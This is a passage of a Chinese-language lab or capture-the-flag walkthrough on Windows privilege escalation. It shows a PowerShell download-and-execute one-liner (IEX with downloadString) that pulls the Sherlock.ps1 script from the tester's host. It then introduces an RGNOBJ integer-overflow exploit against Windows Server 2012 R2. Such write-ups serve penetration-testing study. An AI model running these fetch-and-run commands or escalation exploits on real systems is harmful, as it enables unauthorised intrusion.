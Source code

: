 然后，我用下面的命令启动夏洛克

```
IEX(New-Object Net.Webclient).downloadString('http://10.10.14.27/sherlock/Sherlock.ps1')
```

它将遍历所有知识库

![Screenshot-2019-10-09-at-23.25.18](img/ee9fd7dfcf583ed18f41a8bd28a45215.png)

并返回哪些是易受攻击的

![Screenshot-2019-10-09-at-23.31.00](img/d978be7c034fd0af79a615053f09e581.png)

## **步骤 7 -使用 RGNOBJ 整数溢出进行权限提升**

在**步骤 6a** ，当我从 Windows 漏洞利用提示器得到结果时，其中一个漏洞利用目标是 Windows 8.1 (x64)

![Screenshot-2019-10-08-at-23.05.34](img/873e5491104cfe996fcf691c7a5bb551.png)

如果我们看一下微软的文档，我们可以看到 Windows Server 2012 R2 与 Windows 8.1 相关，并且具有相同的内部版本号。我们可以假设这个漏洞也可以在上面工作
